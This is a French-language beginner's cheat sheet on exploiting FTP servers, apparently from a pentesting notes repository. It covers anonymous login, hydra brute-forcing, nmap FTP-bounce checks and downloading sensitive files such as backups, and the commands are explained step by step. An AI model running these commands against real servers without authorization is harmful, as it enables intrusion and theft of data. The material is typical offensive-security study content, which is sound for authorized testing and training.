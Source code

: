 # Exploitation FTP

## Objectif
Exploiter des faiblesses de configuration ou des mots de passe faibles pour obtenir un accès FTP non autorisé ou rebondir sur d'autres machines.

---

## Explications vulgarisées
- FTP est un protocole ancien, souvent mal sécurisé (accès anonymes, mots de passe faibles, rebond possible).
- L'exploitation consiste à accéder à des fichiers sensibles ou à utiliser le serveur comme proxy (FTP bounce).

---

## Commandes et étapes essentielles

### 1. Connexion anonyme
```bash
ftp target.com
```
- **ftp** : Client FTP en ligne de commande.
- **Astuce débutant** : Tester "anonymous" comme utilisateur.

### 2. Bruteforce de mots de passe
```bash
hydra -L users.txt -P passwords.txt ftp://target.com
```
- **hydra** : Outil de bruteforce pour tester des combinaisons utilisateurs/mots de passe.

### 3. Exploitation du FTP bounce
```bash
nmap --script ftp-bounce -p 21 target.com
```
- **ftp-bounce** : Script Nmap pour tester si le serveur peut être utilisé pour rebondir sur d'autres machines.
- **Exemple de sortie** :
```
| ftp-bounce: 
|   server allows bounce attacks
```
- **À surveiller** : Possibilité de rebond, accès à d'autres machines.

### 4. Exploitation d'un accès anonyme pour lister et télécharger des fichiers sensibles
```bash
ftp target.com
# login: anonymous
ls -la
get backup.zip
```
- **ls -la** : Liste tous les fichiers, y compris cachés.
- **get** : Télécharge un fichier.
- **Astuce** : Chercher des fichiers de config, des backups, des scripts, ou des fichiers cachés (commençant par un point).

---

## Conseils pour débutants
- Toujours tester l'accès "anonymous" avant d'essayer des credentials.
- Attention aux fichiers sensibles accessibles en lecture/écriture.
- Tester le FTP bounce pour voir si le serveur peut être utilisé comme proxy.
- Lire la documentation de chaque outil pour découvrir des options avancées.

---

## Pour aller plus loin
- [PayloadsAllTheThings - FTP Exploitation](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/FTP%20Methodology)
- [Hydra](https://github.com/vanhauser-thc/thc-hydra) 